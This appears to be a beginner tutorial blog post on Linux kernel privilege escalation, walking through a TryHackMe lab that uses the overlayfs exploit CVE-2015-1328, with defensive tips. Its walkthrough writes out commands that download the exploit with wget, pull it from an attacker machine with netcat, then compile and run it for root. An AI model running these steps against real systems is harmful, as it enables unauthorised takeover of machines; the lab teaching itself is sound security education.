


Linux Kernel Exploits
Kernel Exploits (Gaining Root Through Vulnerable Kernels)
Kernel exploits are one of the most powerful ways to escalate privileges in a Linux system. The kernel is the core part of the operating system — it controls everything from hardware to memory. If the kernel has a bug or vulnerability, it can sometimes be exploited to gain root access.
How It Works
When a Linux system is running an outdated or unpatched kernel, attackers can use known public exploits to take control. These exploits usually target specific kernel versions and allow a normal user to run code as the root user.
Example Scenario
Let’s say you're inside a system as a normal user. You run the command:
$ uname -r
This tells you the kernel version. You check online (or using tools like searchsploit) to
see if there are
any known exploits for that version. If there are, and if the system is vulnerable, you can try using
the exploit
to become root.
Popular Kernel Exploits
- Dirty Cow (CVE-2016-5195): A famous Linux kernel bug that allows privilege escalation.
- OverlayFS Exploits: Found in several older Ubuntu versions.
How to Protect Against Kernel Exploits
- Always keep the kernel updated with the latest security patches.
- Monitor user activities and limit who can run programs on the system.
Kernel exploits can be dangerous, but they’re also a great way to learn how deep system-level security works. In real-world scenarios, ethical hackers and red teams often check kernel versions first when trying to escalate privileges.
Kernel Exploits (With Real-World Example)
One of the most powerful ways to gain root access on a Linux system is by using a kernel exploit. These types of exploits take advantage of bugs in the system's kernel — which is like the "brain" of the operating system.
Understanding It Practically
To truly understand how kernel exploits work, we’ll use a virtual lab from TryHackMe: Linux Privilege Escalation. This room gives us a safe environment to test privilege escalation techniques without affecting real systems. In this series, we’ll be using this TryHackMe room for all our practical examples and demonstrations.
Step-by-Step Walkthrough
Let’s break down how to exploit a vulnerable kernel practically:
-
Check the Kernel Version:
We start by identifying the kernel version:
$ uname -rThis command prints the currently running Linux kernel version. Here's the result:
In this case, the version is
3.13.0-24-generic, which is known to be vulnerable to the CVE-2015-1328 exploit.You can also use
uname -ato get more system details. -
Find a Known Exploit:
Search online or use
Exploit-DB: 37292 (CVE-2015-1328)searchsploitfor exploits related to this kernel version.This specific exploit uses a flaw in the
overlayfscomponent to escalate privileges. -
Move to a Writable Directory:
Go to
/tmpbecause it’s universally writable and doesn't require elevated privileges.$ cd /tmp -
Download and Transfer the Exploit:
You can download the exploit directly to your attacker machine and then transfer it to the victim machine using
netcat:# Step 1: Download the exploit on the attacker machine $ wget https://www.exploit-db.com/download/37292 -O exploit.c # Step 2: Transfer the exploit to the victim machine using netcat # On attacker machine: $ nc -lvnp 4444 < exploit.c # On victim machine: $ nc <your-ip> 4444 > exploit.c -
Compile the Exploit:
After transferring the exploit to the victim machine, use the GNU C compiler to convert the C source into a binary executable:
$ gcc exploit.c -o exploitThis will create an executable file named
exploit. -
Run the Exploit:
Execute the binary:
$ ./exploitIf the exploit works, it will escalate your privileges to root. Here's the live result from our test:
As shown, the final command
whoamiconfirms we are now root.
Security Tips
- Keep your kernel and packages up to date with security patches.
- Limit compile rights and outgoing network connections for normal users.
- Use monitoring tools and logs to catch unusual activity.
Practicing in labs like TryHackMe builds real-world skills. As a beginner, this hands-on experience is the best way to learn how attackers think — and how you can protect systems from them.